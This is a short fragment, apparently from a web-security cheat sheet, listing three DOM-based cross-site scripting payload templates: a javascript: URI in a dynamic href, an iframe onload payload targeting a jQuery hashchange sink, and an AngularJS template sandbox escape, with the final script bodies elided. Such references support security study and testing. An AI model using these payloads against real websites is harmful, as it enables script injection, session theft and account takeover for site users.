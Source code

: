 #### Dynamic href
```html
<param>=javascript:...
```

#### $(...) with hashchange event
```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=...>'">
```

#### AngularJS ng-app
```html
{{$on.constructor('<...>')()}}
```




